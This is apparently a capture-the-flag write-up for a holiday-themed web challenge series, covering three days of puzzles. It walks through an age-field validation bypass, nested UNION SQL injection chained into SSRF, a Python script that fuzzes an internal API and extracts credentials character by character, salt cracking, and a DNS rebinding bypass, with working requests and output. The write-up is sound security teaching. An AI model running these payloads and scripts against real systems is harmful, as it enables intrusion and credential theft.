The validation is set in a way that even if we use the maximum number of characters for every field, and make all the letter characters Ys, we still won't be writing to the index that determines if we are an admin. I ran the code locally to test this:

```php
$maximum_y = str_repeat('Y', 15);
$user_str = addUser($maximum_y, md5('this will always be 32 characters'), "999", $maximum_y, $maximum_y);
echo $user_str . PHP_EOL;
echo 'Admin: ' . substr($user_str, 112, 1);
```
Output:
```
YYYYYYYYYYYYYYY9328d34dc87490369be5eec81dd91850b789dbf9d91f073744ed55c765825ead999YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYN
Admin: N
```

We need a way to trick the validation into letting us save just one extra chracter in our input to push the N away, and let us use our Y instead.

The age processing in the validation stood out to me because the data that gets saved isn't exactly the same as the data that gets validated. Pasting it again here:

```php
if (!is_numeric($_POST["age"])) {
    $errors[] = 'Age entered is invalid';
}
if (strlen($_POST["age"]) > 3) {
    $errors[] = 'Age entered is too long';
}
$age = intval($_POST["age"]);
```
`$_POST["age"]` has our age as a string. `is_numeric` checks that it can be interpreted as an integer. We then check it's string length, and then save it _as an integer_. I looked at the [documentation of is_numeric](https://www.php.net/manual/en/function.is-numeric), and saw that it accepts a bunch of formats as numeric, such as binary, hexadecimal, or scientific notation. Running a few tests I found out that I could set my age to `1e3`. This value passes the `is_numeric` check, has a string length of 3 which passes, but saves as it's integer value, `1000`. This will give us the one character we need to push the pesky `N` away.

## Running the Exploit


**Request:**
```
POST /signup-manager/
action=signup&username=q38&password=123&age=1e3&firstname=123&lastname=aaaaaaaaaaaaaaY
```

```
HTTP/1.1 302 Found
Set-Cookie: token=870fa22f8c9727d9e1b527499bb55457; expires=Mon, 21-Dec-2020 17:40:35 GMT; Max-Age=3600
Location: /signup-manager/
```

**Request:**
```
GET /signup-manager/ HTTP/1.1
Cookie: token=870fa22f8c9727d9e1b527499bb55457
```

```html
<body>
<div class="container" style="margin-top:20px">
    <div class="text-center"></div>
    <h1 class="text-center" style="margin:0;padding:0">Admin Area</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3" style="margin-top:15px">
            <div class="alert alert-info">
                <p class="text-center">flag{99309f0f-1752-44a5-af1e-a03e4150757d}</p>
                <p class="text-center">You made it through, continue to your next task <a href="/r3c0n_server_4fdk59">here</a></p>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

Got the flag, `flag{99309f0f-1752-44a5-af1e-a03e4150757d}`, and the location of tomorrow's challenge `/r3c0n_server_4fdk59`.

# Day `0x0b`
We're getting into the depths of the Grinch's schemes now.



The "Attack Box" button takes us to a login page. Presumably we gain the login details by completing this challenge.

## Exploring the Site

Each of the albums displays some Santa sightings:



It is possible the `hash` parameter that is used to fetch the photos in that album is vulnerable to SQL injection. We could check manually like we did for day 9, but let's use [sqlmap](http://sqlmap.org/) this time around.

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42'

GET parameter 'hash' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: hash (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: hash=3dir42' AND 2469=2469 AND 'eVQs'='eVQs

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: hash=-9115' UNION ALL SELECT NULL,NULL,CONCAT(0x7171767871,0x6652794752675962646d466752426364554549457a736577764752754f4c537877415a7363784e73,0x71627a7871)-- -
---
```

Nice, the parameter is vulnerable! We can exploit this further to dump all the database tables:

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42' --threads=5 --dump

Database: recon
Table: photo
[6 entries]
+----------+------+--------------------------------------+
| album_id | id   | photo                                |
+----------+------+--------------------------------------+
| 1        | 1    | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 1        | 2    | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 2        | 3    | 32febb19572b12435a6a390c08e8d3da.jpg |
| 3        | 4    | db507bdb186d33a719eb045603020cec.jpg |
| 3        | 5    | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 3        | 6    | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----------+------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+------+--------+-----------+
| id   | hash   | name      |
+------+--------+-----------+
| 1    | 3dir42 | Xmas 2018 |
| 2    | 59grop | Xmas 2019 |
| 3    | jdh34k | Xmas 2020 |
+------+--------+-----------+
```

Hmm...the results don't have login info or anything particularly interesting. Still, we can make note of this vulnerability and keep looking for more issues.

## Fuzzing

Let's do a quick fuzzing check to see if there are some pages we can't view from clicking the UI:

```
ffuf -w raft-small-words.txt -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/FUZZ -fc 404 -mc all

uploads                 [Status: 403, Size: 145, Words: 3, Lines: 7]
api                     [Status: 200, Size: 2390, Words: 888, Lines: 54]
picture                 [Status: 200, Size: 21, Words: 3, Lines: 1]
```

The `uploads` and `picture` endpoints get called from the album page. Let's view this `api` page though:



I tried guessing api endpoints, but any text you put after `/api/` returns the same `401 {"error":"This endpoint cannot be visited from this IP address"}` result. 


## Examining the Album Images
I noticed the album images were loading in an unusual way. Let's look a little closer at the 2018 album page:

```
GET /r3c0n_server_4fdk59/album?hash=3dir42
```
```html
<div class="col-md-4">
    
</div>

<div class="col-md-4">
    
</div>
```
Decoding the two base64 strings we get these two results:

```js
{"image":"r3c0n_server_4fdk59\/uploads\/0a382c6177b04386e1a45ceeaa812e4e.jpg","auth":"ec5a9920e177ccc84974146f93ae04b0"}
{"image":"r3c0n_server_4fdk59\/uploads\/1254314b8292b8f790862d63fa5dce8f.jpg","auth":"99c00d3eef70847ac4888ae85d0b4c7e"}
```

Trying to go to https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/0a382c6177b04386e1a45ceeaa812e4e.jpg directly gives an "Image cannot be viewed directly" error. It is interesting to note that when the server gets a request to the `picture` endpoint it will query the `uploads` endpoint to find the photo it needs. By changing the url of the `image` to `r3c0n_server_4fdk59\/api\/FUZZ` we could get authenticated requests to figure out what is hiding in the internal api.

I did try to set up a manual request to see if I could get any kind of response from the API: `{"image":"r3c0n_server_4fdk59\/uploads\/1","auth":"bbf295d686bd2af346fcd80c5398de9a"}`. After converting it to base64, the request was `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEiLCJhdXRoIjoiYmJmMjk1ZDY4NmJkMmFmMzQ2ZmNkODBjNTM5OGRlOWEifQ==`. Unfortunately, this and any other custom request to `picture` returns an `invalid authentication hash` error. Looks like it won't be this easy, and we need to figure out a way around the authentication as well.

## We Need to Go Deeper
I was stuck here for a while. The CTF admin posted this hint:


Pretty weird hint, but I was willing to take anything at this point. It's a screenshot from Inception, a movie about dreams within dreams. Looks like we need to do exploits within exploits.

We know from the sqlmap dump above that the authentication information is not saved to the database. The server may be calculating authentication hashes on the fly for each of the pictures that comes up as being part of the album. If we can tune our injection just right, we could be able to trick the server into thinking it got an image from the database, and it would generate an authentication hash for it.

Recall that we fetch album photos by querying `/r3c0n_server_4fdk59/album?hash=` with an album's hash. From here, the server is able to determine which photos to display. Since this parameter is vulnerable, we can run a special query on the information schema to view the currently executing query. (Since the album title is rendered on the result page we have an easy way to view the results of our injection.)

`GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+1,1,info+FROM+information_schema.processlist--+`
```html
<h1 class="text-center">select * from album where hash = 'fakehash' UNION SELECT 1,1,info from information_schema.processlist-- '</h1>
```

Ok. From this response, we know the base query the server is executing is `select * from album where hash = '{input}'`. Since the server then retrieves all the pictures in that album, there must be a query right after executing something like `select * from photo where album_id = '{id_from_album_query}'`.

We need to go deeper. If this followup query is also vulnerable to SQL injection, we could craft a specific picture to load. (And we could potentially get an authenticated Server Side Request Forgery (SSRF) by doing this.)

### 1. Recreating the Table
Since we know the database schema from our sqlmap dump, we can recreate it in [sqlfiddle](http://sqlfiddle.com/) to play with a local copy to work out the injection queries.

```sql
create table album(id int, hash varchar(255), name varchar(255));
create table photo(album_id int, id int, photo varchar(255));
```

### 2. Creating a Custom Album

Using the album hash `fakehash' UNION SELECT 1337, 'my_hash', 'my_album_name'-- ` on the Grinch site would generate the following query:

```sql
SELECT * FROM album WHERE hash = 'fakehash' UNION SELECT 1337, 'my_hash', 'my_album_name'-- ';
```

Which returns 
id | hash | name
--- | --- | ---
1337 | my_hash | my_album_name

And of course, querying the endpoint returns no photos since this album does not exist:

```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+1337,+'my_hash',+'my_album_name'--+
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

        
    </div>
</div>
```

### 3. Adding Photos to Albums
What's an album without some nice photos?

Using the payload `fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ` we generate this query:

```sql
SELECT * FROM album WHERE hash = 'fakehash' 
UNION SELECT "1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ", 'my_hash', 'my_album_name'-- ';
```

Returning this result:
id | hash | name
--- | --- | ---
1337' UNION SELECT 0, 0, 'my_photo.jpg'--  | my_hash | my_album_name

And then, when the followup image fetch query runs, it will execute:

```sql
SELECT * FROM photo WHERE album_id = '1337' UNION SELECT 0, 0, 'my_photo.jpg'-- ';
```

Returning:
album_id | id | photo
--- | --- | ---
0  | 0 | my_photo.jpg

Running it:
```
GET /r3c0n_server_4fdk59/album?hash=fakehash'+UNION+SELECT+"1337'+UNION+SELECT+0,+0,+'my_photo.jpg'--+",+'my_hash',+'my_album_name'--+ 
```
```html
<div class="col-md-8 col-md-offset-2">
    <h1 class="text-center">my_album_name</h1>
    <div class="row">

            <div class="col-md-4">
                
            </div>
        
    </div>
</div>
```

Decoded from base64, the image is:
```js
{"image":"r3c0n_server_4fdk59\/uploads\/my_photo.jpg","auth":"e88273dd34bdd2de7c60dd6450ead88f"}
```

Naturally, the image doesn't load on the page since this photo doesn't exist. We do note that the authorization hash was calculated though!

### 4. SSRF Time
Now we have a way to get authenticated results. We know that the server is assuming our photo is in the `uploads` directory. We can instead have our photo be named `..\/api\/FUZZ` and fuzz for api endpoints. 

I wrote a quick program to try every endpoint in a common API endpoints wordlist:

```python
#!/usr/bin/env python3

import re
import base64
import requests
import sys
  
BASE_URL = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/'
PAYLOAD = "fakehash'+UNION+SELECT+\"1337'+UNION+SELECT+0,+0,+'..\/api\/FUZZ'--+\",+'my_hash',+'my_album_name'--+"
SECLISTS_DIR = '../../../../SecLists/Discovery/Web-Content/'

def fuzz(wordlist, avoid_code='404', prefix='', suffix=''):
    with open(SECLISTS_DIR + wordlist) as payloads:
        lines = [x.strip() for x in payloads]
        for i, line in enumerate(lines):
            process(PAYLOAD.replace('FUZZ', prefix + line + suffix), avoid_code)

def process(payload, avoid_code):
    album = requests.get(BASE_URL + 'album?hash=' + payload)
    picture_data = re.match(r".*picture\?data=(.*)\"", str(album.content)).groups()[0]

    api_call = requests.get(BASE_URL + 'picture?data=' + picture_data)

    if avoid_code not in str(api_call.content):
        print(str(base64.b64decode(picture_data)))
        print(str(api_call.content))
        return True
    return False
    
sys.argv[1] == 'endpoints' and fuzz('common-api-endpoints-mazen160.txt', avoid_code='404') # finds endpoints "ping" and "user"
sys.argv[1] == 'parameters' and fuzz('burp-parameter-names.txt', avoid_code='400', prefix='user?', suffix='=1') # finds parameters "username" and "password"
```

Most endpoints just 404, but the endpoints `user` and `ping` both return:

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 28 Dec 2020 20:49:49 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 29

Invalid content type detected
```

When you query a normal image, you get a `Content-Type` of `image/jpeg`. The header here shows that it is returning a text result and it is confused because it is an images api. This error is fine though, it shows us that even though we aren't able to see the output of this api, we know that it exists.

The last line of the program fuzzes to find the parameters of the user endpoint. Most of the wordlist returns a `400` status, but `username` and `password` both return a `204 No Content`. With some fiddling I could see that the username and password fields were search fields. Trying `username=%` would return the "Invalid content type detected" error, while trying `username=1` would return `204 No Content`. This tells us that we have a true or false response to know if a certain user is existing. Using this, we can exfiltrate the login in the same way we did for day 9. To do this, I added an extra function to the existing script:

```python
CHARS = "qwertyuiopasdfghjklzxcvbnm1234567890"

def exfiltrate(field):
    accumulator = ''
    while True:
        for char in CHARS:
            payload = PAYLOAD.replace('FUZZ', f'user?{field}={accumulator}{char}%')
            if process(payload, avoid_code='204'):
                accumulator += char 

sys.argv[1] == 'username' and exfiltrate('username')
sys.argv[1] == 'password' and exfiltrate('password')
```

Running: 
```sh
$ ./api_fuzz.py username
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=g%","auth":"e8b7a05ab04f3c1165c79d08d331169a"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gr%","auth":"9628e7ff516491d7fef561b270e6bf96"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gri%","auth":"b72688442a598cee8ddb8b3c012b0ec4"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grin%","auth":"52bce9f7f3f8d95abed4a447545656d8"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinc%","auth":"aecf8d3c5edd3986815fb8f8bc31982f"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinch%","auth":"6f86b86d2013ab5ab58abd4d77b44506"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grincha%","auth":"fb005d3fc853a5b48927e526be4c7daf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchad%","auth":"2eac9d3c5e350d26c8d44cd7f4135fbd"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadm%","auth":"6d4771f64f64ed71f8782de9cad19a68"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmi%","auth":"07c90be0a9c886d667407f0bceb85dc1"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchadmin%","auth":"492e8c29c6b95c00bc37be3884596c86"}'

$ ./api_fuzz.py password
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s%","auth":"cce984225bf170447abaad0fa0453ce7"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4%","auth":"e1363f9484af0f5f74bb9d742b46e6dd"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4n%","auth":"aec35f51d4c9cd352748ddfc96f420a5"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt%","auth":"53e5891faf4d065a21a2cfa8ae929627"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4%","auth":"6baf718704fe9c42d165410e4e37471c"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4s%","auth":"0c4fedfb721842a56a05405307eff3eb"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4su%","auth":"728b47db8b71517e7d8bf0462fdf60bf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suc%","auth":"e7fb3d6a9c0adbd839ac69922a2cddfc"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4suck%","auth":"d06aa53fa99473d10e523cd1cd8b1697"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?password=s4nt4sucks%","auth":"c1e451e64373509cd5f30e4899fdb2ce"}'
```

Ok! Using the exfiltrated login of `grinchadmin/s4nt4sucks` we can access the attack box!



`flag{07a03135-9778-4dee-a83c-7ec330728e72}`

## Takeaways
- It can be possible to dump an entire database's contents when there is an endpoint vulnerable to SQLi
- Exploits can be chained to wreak more havoc
- If an endpoint replies differently depending on whether or not some data exists you can exfiltrate information about it

# Day `0x0c`
Home stretch! Currently we are logged into the attack server after completing yesterday's challenge.

I can see that the attack server is primed to knock Santa's servers offline. To beat this challenge, we will need to redirect the attack to the Grinch's server instead. For now though, let's launch an attack on Santa just to see what happens. Sorry, Santa! Clicking the first link gets us:

```
grinch@attackbox:~/tools$ ./ddos --load b3d6931a61c78cf4dd1d8e4e7ad98b2a.target
Setting Target Information
Getting Host Information for: 203.0.113.33
Spinning up botnet
Launching attack against: 203.0.113.33 / 203.0.113.33
Launching attack against: 203.0.113.33 / 203.0.113.33
ping 203.0.113.33
ping 203.0.113.33
64 bytes from 203.0.113.33: icmp_seq=1 ttl=118 time=18.1 ms
64 bytes from 203.0.113.33: icmp_seq=1 ttl=118 time=18.1 ms
64 bytes from 203.0.113.33: icmp_seq=2 ttl=118 time=22.9 ms
64 bytes from 203.0.113.33: icmp_seq=3 ttl=118 time=16.3 ms
64 bytes from 203.0.113.33: icmp_seq=3 ttl=118 time=16.3 ms
Host still up, maybe try again?
Host still up, maybe try again?
.
```

It seems Santa has some resilient servers. The attack buttons navigate to the following URLs to begin the attacks:

- https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==
- https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuNTMiLCJoYXNoIjoiMjgxNGY5YzczMTFhODJmMWI4MjI1ODUwMzlmNjI2MDcifQ==
- https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMjEzIiwiaGFzaCI6IjVhYTliNWE0OTdlMzkxOGMwZTE5MDBiMmEyMjI4YzM4In0=

Decoding each of the `payload` parameters, I can see this is the information being sent:
```js
{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
{"target":"203.0.113.53","hash":"2814f9c7311a82f1b822585039f62607"}
{"target":"203.0.113.213","hash":"5aa9b5a497e3918c0e1900b2a2228c38"}
```

Ok! If we can replace the target with `127.0.0.1` (the localhost address) we can take down the Grinch server. Unfortunately, just taking one of the existing payloads and replacing the address with the local IP gave me an `invalid protection hash` error. We will need to figure out how these hashes work.

## Figuring out How These Hashes Work
[This hash identification site](https://www.onlinehashcrack.com/hash-identification.php) had some suggestions for what the hash could be. MD5 seemed likely, but just doing `MD5(ip_address)` was not returning the hash in the hash field. Among the suggestions were `md5($pass.$salt)` and `md5($salt.$pass)`. We know the hash value, and we know the "pass" is the ip address. We can try to calculate the salt. And if we are lucky, Grinch will be using the same salt for every hash.

I wrote a quick program to determine the salt for the first IP and hash combination in the list of Santa server payloads.
```python
#!/usr/bin/env python3
import hashlib

TARGET_HASH = '5f2940d65ca4140cc18d0878bc398955'
IP = '203.0.113.33'

with open('../../../SecLists/Passwords/Leaked-Databases/rockyou.txt', errors="ignore") as salt_file:
    salts = [x.strip() for x in salt_file]
    found = False
    for i, salt in enumerate(salts):
        if i % 100 == 0:
            print(f"{round((i/len(salts) * 100), 1)}%", end="\r")

        if hashlib.md5((salt + IP).encode('utf-8')).hexdigest() == TARGET_HASH:
            print("Format is MD5(salt + IP)")
            found = True
        elif hashlib.md5((IP + salt).encode('utf-8')).hexdigest() == TARGET_HASH:
            print("Format is MD5(IP + salt")
            found = True
        if found:
            print(f"Salt is '{salt}'")
            break
```
```
$ ./exploit.py
Format is MD5(salt + IP)
Salt is 'mrgrinch463'
```

A quick test shows this works for our existing values

IP | MD5(salt + IP)
--- | ---
203.0.113.33 | 5f2940d65ca4140cc18d0878bc398955
203.0.113.53 | 2814f9c7311a82f1b822585039f62607
203.0.113.213 | 5aa9b5a497e3918c0e1900b2a2228c38

Great! Now we can forge some authenticated requests.

## Forging Authenticated Requests
Using the trick above, we can make a payload for the local IP `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}`. After encoding as base64, we can run the attack by accessing `/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==`.

Output:
```
grinch@attackbox:~/tools$ ./ddos --load 5ef7f0e45440b03e470946ab65f02a9c.target
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
```

Hmm, there is a protection mechanism to prevent us from attacking the Grinch's own server. The output shows us that it is determining this by looking up host information. Maybe we can get around this with some DNS trickery.

## Some DNS Trickery

I found [this blog post](https://medium.com/@brannondorsey/attacking-private-networks-from-the-internet-with-dns-rebinding-ea7098a2d325) which explains DNS rebinding. A main takeaway from the post is:
> DNS can be abused to trick web browsers into communicating with servers they don’t intend to.

Sounds perfect! The [rbndr](https://github.com/taviso/rbndr) project can be used for performing DNS Rebinding attacks. They have an example address in the readme, `7f000001.c0a80001.rbndr.us`, which will randomly respond to DNS requests by saying its address is either `127.0.0.1` or `192.168.0.1`. The TTL is very short to force the server to constantly refetch the IP address of the domain. The `192.168.0.1` address is allowed by the Grinch network, but `127.0.0.1` is supposed to be rejected. With some luck, we can have this server return the allowed address when the host validation runs, and then the local address by the time the botnet attack wants to start. 

I crafted the following payload with the rbndr address,
`{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}`, which maps to this request: 
`/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9`

After running that exploit a couple times until the DNS resolutions lined up properly, I was able to get the following output:

```
grinch@attackbox:~/tools$ ./ddos --load fc007b100f6745bae362a35918c6a102.target
Setting Target Information
Getting Host Information for: 7f000001.c0a80001.rbndr.us
Host resolves to 192.168.0.1
Spinning up botnet
Launching attack against: 7f000001.c0a80001.rbndr.us / 127.0.0.1
No Response from attack server, retrying...
No Response from attack server, retrying...
No Response from attack server, retrying...
```
Suddenly the page redirected:



A 404, what a beautiful sight!

`flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}`

Takeaways:
- Computers can be tricked into communicating with servers they don't intend to
- The Grinch's plans were foiled!

